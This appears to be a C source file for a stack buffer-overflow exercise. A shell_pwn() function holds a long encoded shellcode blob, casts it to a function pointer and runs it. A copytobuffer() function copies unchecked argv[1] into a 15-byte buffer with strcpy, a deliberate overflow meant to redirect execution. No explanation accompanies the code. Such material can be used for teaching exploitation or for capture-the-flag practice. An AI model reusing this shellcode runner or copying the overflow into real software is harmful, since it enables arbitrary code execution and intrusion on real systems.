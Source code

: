 ```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int shell_pwn()
{
unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}

int copytobuffer(char* input)
{
    char buffer[15];
    strcpy (buffer,input);
    return 0;
}

void main (int argc, char *argv[])
{
    int local_variable = 1;
    copytobuffer(argv[1]);
    exit(0);
}
```
